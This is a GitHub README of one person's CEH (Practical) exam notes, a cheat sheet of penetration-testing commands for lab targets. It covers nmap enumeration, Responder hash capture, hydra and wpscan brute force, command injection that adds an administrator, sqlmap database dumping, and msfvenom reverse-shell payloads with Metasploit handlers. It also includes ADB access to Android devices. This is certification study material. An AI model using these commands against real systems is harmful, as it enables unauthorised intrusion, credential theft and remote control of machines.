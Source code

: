 <img src="/IMG/CEH-Practical-Logo.jpg">

# CEH-Practical-Notes-and-Tools
Successfully completed the CEH (Practical) exam by EC-Council with a score of 20/20! Took me around 2 hours 20 minutes to complete the 6 hour Proctored exam.  

> Just a typical CTF Player/Hacker going back to Basics 💻

> My Personal Notes that I used on the Exam as a Cheatsheet

# Network Hacking - Enumeration
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
  
* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
* Enum
```console
1- NetBios enum using windows- in cmd type- nbtstat -a 10.10.10.10 (-a displays NEtBIOS name table)

2- NetBios enum using nmap- nmap -sV -v --script nbstat.nse 10.10.10.16

3- SNMP enum using nmap-  nmap -sU -p 161 10.10.10.10 (-p 161 is port for SNMP)--> Check if port is open
                          snmp-check 10.10.10.10 ( It will show user accounts, processes etc) --> for parrot

4- DNS recon/enum-  dnsrecon -d www.google.com -z

5- FTP enum using nmap-  nmap -p 21 -A 10.10.10.10 

6- NetBios enum using enum4linux- enum4linux -u martin -p apple -n 10.10.10.10 (all info)
				  enum4linux -u martin -p apple -P 10.10.10.10 (policy info)
  ```
</details>

<details>
  <summary>Nmap </summary>
  
## Nmap

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```
* To find FQDN (Find the FQDN in a subnet/network)
```console
nmap -p389 –sV -iL <target_list>
```
```console
 nmap -p389 –sV <target_IP>
```

* Scanning Networks (always do sudo su) --> To be root

  Nmap scan for alive/active hosts command for 192.189.19.18
```console
nmap -A 192.189.19.0/24 or nmap -T4 -A ip
```
  
Zenmap/nmap command for TCP scan- First put the target ip in the Target: and then in the Command: put this command 
```console
nmap -sT -v 10.10.10.16
```
  
Nmap scan if firewall/IDS is opened, half scan 
```console
nmap -sS -v 10.10.10.16 
```
  
If even this the above command is not working then use this command  
```console
namp -f 10.10.10.16
```
Nmap scan for host discovery or OS- nmap -O 192.168.92.10 or you can use
```console
nmap -A 192.168.92.10
```

If host is windows then use this command - this script determines the OS, computer name, domain, workgroup, time over smb protocol (ports 445 or 139).
```console
nmap --script smb-os-discovery.nse 192.168.12.22 
```

nmap command for source port manipulation, in this port is given or we use common port  
```console
nmap -g 80 10.10.10.10
```
```console  
-A command is aggressive scan it includes - OS detection (-O), Version (-sV), Script (-sS) and traceroute (--traceroute).
```
```console  
5- Identify Target system os with (Time to Live) TTL and TCP window sizes using wireshark- Check the target ip Time to live value with protocol ICMP. If it is 128 then it is windows, as ICMP value came from windows. If TTL is 64 then it is linux. Every OS has different TTL. TTL 254 is solaris.
```
Some extra RDP info
```console
Check RDP enabled after getting ip- nmap -p 3389 -iL ip.txt | grep open (ip.txt contains all the alive hosts from target subnet)
```
Some extra MYSQL info
```console
Check MySQL service running- nmap -p 3306 -iL ip.txt | grep open        (ip.txt contains all the alive hosts from target subnet)
```

</details>

  <details>
  <summary>Wireshark</summary>
    
  ## Wireshark
  
  * Wireshark provides the feature of reassembling a stream of plain text protocol packets into a human-readable format
  
  ```shell
    select_packet > follow > TCP Stream
  ```
  
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS
  * go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  ```
* Wireshark summary
   
  ```console
  tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given

  tcp.flags.syn == 1   (Which machine for dos)

  http.request.method == POST   (for passwords) or click tools ---> credentials Also
  ```

 * Password Sniffing using Wireshark
In pcap file apply filter:- (you will get all the post request) Now to capture password click on edit in menu bar, then near Find packet section, on the "display filter" select "string", also select "Packet details" from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and then type "pwd" in the find section.
```console
http.request.method==POST
```
</details>

<details>
  <summary>Covert TCP</summary>
  
  ## Covert TCP
  
  * [covert_TCP](Covert_TCP.c) 
  * In this we have to use Covert TCP technique to analyses the pcapng file.
  * Traverse though each line in Wireshark and concentrate on Identification field, keep an eye on Hex value and ANSI value.
  * Compile the Code
  ```console
cc -o covert_tcp covert_tcp.c
  ```
  * Reciever Machine(Client_IP)
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
  ```
  * Sender Machine(Attacker_IP)
  * Create A Message file that need to be transferred Eg: secret.txt
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
  ```
 
 * Secret message sent using Covert_TCP and it is captured using Wireshark - [Pcap_of_Covert](Covert_TCP_Capture.pcapng)
 * The Secret text is -> Hello  This 123 -

  <img src="/IMG/CovertWireshark.jpg" />

 

</details>

<details>
  <summary> LLMNR/NBT</summary>
  
  ##  LLMNR/NBT-NS Poisoning

* [Responder](https://github.com/lgandx/Responder) - rogue authentication server to capture hashes.

* This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present.
  
* In Parrot/Kali OS, 

```console
responder -I eth0  
```

* In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
* To crack that hash, use JohntheRipper

```console
john SMBfilename  
```
</details>

<details>
  <summary>Common Ports</summary>
  
 ## Common Port

* 21        - FTP
* 22        - SSH
* 23        - TELNET
* 3306      - MYSQL
* 389,3389  - RDP

</details>

<details>
  <summary>Port Login</summary>

  ## Port Login
    
  * FTP Login
    
  ```console
    ftp x.x.x.x
  ```
    
  * SSH Login  
  ```console
    ssh username@x.x.x.x
  ```
    
  * TELNET Login
  ```console
    telnet x.x.x.x
  ```
   
 </details>
</details>

# Web Hacking
<details>
	
<summary>HACKING WEB</summary>

@@ Hacking Web servers

```console
1- Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0

2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com

3- Crack FTP port using nmap-
nmap -p 21 10.10.10.10 (check if it is open or not)

ftp 10.10.10.10 (To see if it is directly connecting or need credentials if need. Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file. )

Now in terminal type-
hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10
or
hydra -l user -P passlist.txt ftp://10.10.10.10
```

@@ Hacking Web Application
```console
1- Scan Using OWASP ZAP (Parrot)- Type 'zaproxy' in the terminal and then it would open. In target tab put the url and click automated scan.

2- Directory Bruteforcing
gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt

3- Enumerate a Web Application using WPscan & Metasploit BFA- (u means username) 
wpscan --url http://10.10.10.10:8080/NEW --enumerate u  

Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin

4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 

5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.
```
 </details>
<details>

  <summary>Nslookup</summary>

* To verify Website's Ip
```console
Nslookup wwww.example.com
```
  </details>
  <details>
  <summary>File Upload</summary>
  
  ## File Upload Vulnerability
  
* To create a PHP Payload 
* Copy the PHP code and create a .php
  
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw
```
  
* To create a Reverse_tcp Connection
```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```
  
* To find the secret file 
```console
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
  </details>
<details>
  <summary>SQL Injection</summary>
  
  ## SQL Injection
  
  * Login bypass with [' or 1=1 --]
  
### DSSS
  
  * Damn Small SQLi Scanner ([DSSS](https://github.com/stamparm/DSSS)) is a fully functional SQL injection vulnerability scanner (supporting GET and POST parameters)

  * As of optional settings it supports HTTP proxy together with HTTP header values User-Agent, Referer and Cookie.

  ```console
  python3 dsss.py -u "url" --cookie="cookie"
  ```
  <img src="/IMG/DSSS/dsss1.jpg" />
  
  * Open the binded URL
  
  <img src="/IMG/DSSS/dsss2.jpg" />

### SQLMAP
  
* List databases, add cookie values
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
```
* OR
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  
```

* List Tables, add databse name
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
```
* List Columns of that table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
```
* Dump all values of the table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
```
  </details>



</details>

# System Hacking

<details>
  <summary>System</summary>
  
  ## System 

  * To create a Payload 
```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 
```
* To take a reverse TCP connection from windows
```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run
```

</details>

# Android Hacking
<details>
<summary>Android</summary>

  ## Android
  
```console
1- nmap ip -sV -p 5555    (Scan for adb port)

2- adb connect IP:5555    (Connect adb with parrot)

3- adb shell              (Access mobile device on parrot)

4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)
```

  <summary>ADB</summary>

  ## ADB
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>
<details>
  <summary>PhoneSploit</summary>
  
## PhoneSploit tool
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>

# Password Cracking



<details>
  <summary>Wpscan</summary>
  
## Wordpress

* Wordpress site only Users Enumeration
```console
wpscan --url http://example.com/ceh --enumerate u
```
  * Direct crack if we have user/password detail
```console
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt
```
</details>

<details>
  <summary>Hydra</summary>

## Hydra

### SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh
```
### FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

hydra -l user -P passlist.txt ftp://10.10.10.10
```
* If the service isn't running on the default port, use -s
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221
```
* FTP Get command
* Used to download the specific file from FTP to attacker or local machine
```console
get flag.txt ~/Desktop/filepath/flag.txt
get flag.txt .
```
### TELNET
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```


</details>
  
# Steganography
  <details>
    <summary>Snow</summary>

### Snow
    
* Whitespace Steganography using [Snow](https://darkside.com.au/snow/snwdos32.zip)
* To hide the Text  
  
```console
SNOW.EXE -C -p test -m "Secret Message" original.txt hide.txt
```

* To unhide the Hidden Text

```console
SNOW.EXE -C -p test hide.txt
```
kali Hide Data Using Whitespace Stegnography- (magic is password and your secret is stored in readme2.txt along with the content of readme.txt)
```console
snow -C -m "My swiss account number is 121212121212" -p "magic" readme.txt readme2.txt  
```
To Display Hidden Data-(then it will show the content of readme2.txt content) 
```console
snow -C -p "magic" readme2.txt
```
<img src="/IMG/Snow.png"/>

</details>
<details>
  <summary>CrypTool</summary>
  
  ### CrypTool
  
  * [CrypTool](https://www.cryptool.org/en/ct1/downloads) for hex 
  
  <img src = "/IMG/Cryptool/CT.png"/>
  
  * To Encrypt
  
  <img src = "/IMG/Cryptool/CT5.png"/>
  <img src = "/IMG/Cryptool/CT6.png"/>
  
  * Use Key 05 
  
  <img src = "/IMG/Cryptool/CT7.png"/>
  <img src = "/IMG/Cryptool/CT8.png"/>
  <img src = "/IMG/Cryptool/CT9.png"/>
  <img src = "/IMG/Cryptool/CT10.png"/>
  <img src = "/IMG/Cryptool/CT11.png"/>
  
  * To Decrypt
  
  <img src = "/IMG/Cryptool/CT12.png"/>
  <img src = "/IMG/Cryptool/CT13.png"/>
  <img src = "/IMG/Cryptool/CT14.png"/>
  <img src = "/IMG/Cryptool/CT15.png"/>
  <img src = "/IMG/Cryptool/CT16.png"/>
 </details>
  
 <details>
   <summary>HashCalc</summary>
   
   ## HashCalc
    
   * HashCalc Interface.
   <img src = "/IMG/HashCalc/Hcal1.png"/>

   * Create a text file.
   <img src = "/IMG/HashCalc/Hcal2.png"/>
   
   * Choose text file.
   <img src = "/IMG/HashCalc/Hcal3.png"/>
   
   * Hash Value of text file.
   <img src = "/IMG/HashCalc/Hcal4.png"/>
   
   * Modify the text inside the file. 
   <img src = "/IMG/HashCalc/Hcal5.png"/>
   
   * Compare the hash, It will vary.
   <img src = "/IMG/HashCalc/Hcal6.png"/>
   
 </details>

  <details>
    <summary>HashMyFile</summary>
 
  ## HashMyFile  
    
  * HashMyFile Application
  <img src = "/IMG/HashMyFile/HMF1.png"/>
    
  * add folder to Hash the file presented in Folder  
  <img src = "/IMG/HashMyFile/HMF2.png"/>  
  <img src = "/IMG/HashMyFile/HMF3.png"/>

  * After Hash the file
  <img src = "/IMG/HashMyFile/HMF4.png"/>
    
  * Add More Hashing Format
  <img src = "/IMG/HashMyFile/HMF5.png"/>
</details>
  
  <details>
    <summary>MD5 Calculator</summary>
    
    ## MD5 Calculator  
  
  * Create a text file contains "Hello" and save it, Right click the file to compare hash. 
  <img src = "/IMG/MD5 Calc/MD5Calc1.png"/>  
  
  * MD5 Hash of text file
  <img src = "/IMG/MD5 Calc/MD5Calc2.png"/> 
  
  <img src = "/IMG/MD5 Calc/MD5Calc3.png"/>  
  
  <img src = "/IMG/MD5 Calc/MD5Calc4.png"/>  
  
</details>

<details>
    <summary>VeraCrypt</summary>
      
  ## VeraCrypt 

  
  <img src = "/IMG/VeraCrypt/VC1.png"/>
  <img src = "/IMG/VeraCrypt/VC2.png"/>
  <img src = "/IMG/VeraCrypt/VC3.png"/>
  <img src = "/IMG/VeraCrypt/VC4.png"/>
  <img src = "/IMG/VeraCrypt/VC5.png"/>
  <img src = "/IMG/VeraCrypt/VC6.png"/>
  <img src = "/IMG/VeraCrypt/VC7.png"/>
  <img src = "/IMG/VeraCrypt/VC8.png"/>
  <img src = "/IMG/VeraCrypt/VC9.png"/>
  <img src = "/IMG/VeraCrypt/VC10.png"/>
  <img src = "/IMG/VeraCrypt/VC11.png"/>
  <img src = "/IMG/VeraCrypt/VC12.png"/>
  <img src = "/IMG/VeraCrypt/VC13.png"/>
  <img src = "/IMG/VeraCrypt/VC14.png"/>
  <img src = "/IMG/VeraCrypt/VC15.png"/>
  <img src = "/IMG/VeraCrypt/VC16.png"/>
  <img src = "/IMG/VeraCrypt/VC17.png"/>
  <img src = "/IMG/VeraCrypt/VC18.png"/>
  
</details> 

<details>
    <summary>BCTextEncoded</summary>
  
  ## BCTextEncoded
    
  <img src = "/IMG/BCTextEncoded/BCTE1.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE2.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE3.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE4.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE5.png"/>

  <img src = "/IMG/BCTextEncoded/BCTE6.png"/>


</details>

<details>
    <summary>Keywords</summary>
  
  ## Keywords
  
  
  * Img hidden      - Openstego
  * .hex            - Cryptool
  * Whitespace      - SNOW
  * MD5             - Hashcalc & MD5 Calculator
  * Encoded         - BCTexteditor
  * Volume & mount  - Veracrypt

</details>

# File Transfer
<details>
  <summary>File Transfer</summary>
  
## File Transfer

### Linux to Windows
* used to send a payload by Apache 
```console
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
  ```
  * to start and verify
  ```console
  service apache2 start 
  service apache2 status
  ```
  * to Download from Windows
  * Open browser 
  ```shell
  IP_OF_LINUX/share
  ```
### Windows to Linux 
* File system > Network > smb///IP_OF_WINDOWS
</details>


# Resource
<details>
  <summary>Course</summary>

  ## Course
  
* [Penetration Testing Student - PTS ](https://my.ine.com/CyberSecurity/learning-paths/a223968e-3a74-45ed-884d-2d16760b8bbd/penetration-testing-student) from [INE](https://my.ine.com/)
* [Practical Ethical Hacking - PEH ](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) from [TCM Security](https://tcm-sec.com/)
* [iLab](https://ilabs.eccouncil.org/ethical-hacking-exercises/) CEH (Practical) Official Lab from [EC-Council](https://www.eccouncil.org/)
* [Youtube free iLab ](https://www.youtube.com/watch?v=9g5gdhoDotg&list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO)

</details>
<details>
  <summary>TryHackMe</summary>

## TryHackMe
### Learning Path
* [Pre-Security](https://tryhackme.com/paths) 
* [Jr Penetration Tester](https://tryhackme.com/paths)
* [Complete Beginner](https://tryhackme.com/paths) 
### Rooms
* [Linux](https://tryhackme.com/module/linux-fundamentals)
* [Nmap](https://tryhackme.com/room/furthernmap)
* [SQLMAP](https://tryhackme.com/room/sqlmap)
* [Wireshark](https://tryhackme.com/room/wireshark)
* [Hydra](https://tryhackme.com/room/hydra)
* [DVWA](https://tryhackme.com/room/dvwa)
* [OWASP Top 10](https://tryhackme.com/room/owasptop10)

  
</details>  

<details>
  <summary>Useful Links</summary>
  
## Links
* [hash.com](https://hashes.com/en/decrypt/hash) is a online hash Identifier and Cracker 
</details>





